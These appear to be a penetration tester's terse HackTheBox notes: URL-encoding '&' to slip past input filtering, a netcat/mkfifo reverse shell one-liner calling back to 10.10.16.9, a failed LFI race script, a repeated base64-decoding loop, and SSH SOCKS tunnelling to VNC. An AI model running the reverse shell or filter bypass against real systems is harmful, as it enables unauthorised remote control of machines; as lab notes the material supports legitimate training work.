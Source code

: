 ### Use %26 encode to pass the & filtering
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.9 4242 >/tmp/f
```

### phpinfolfi.py
Didn't make it work on HTB vip+

Too slow to win the race.

### Bash script
```
data=$(cat pw64.txt); for i in $(seq 1 13); do data=$(echo $data | tr -d ' ' | base64 -d); done; echo $data
```
### SOCKS5 for SSH
```
socks5 127.0.0.1 1080                                                                                                                                                                                             
❯ proxychains vncviewer 127.0.0.1::5901 -passwd secret

~C -D 1080 instead of -L 5901:127.0.0.1:5901
```
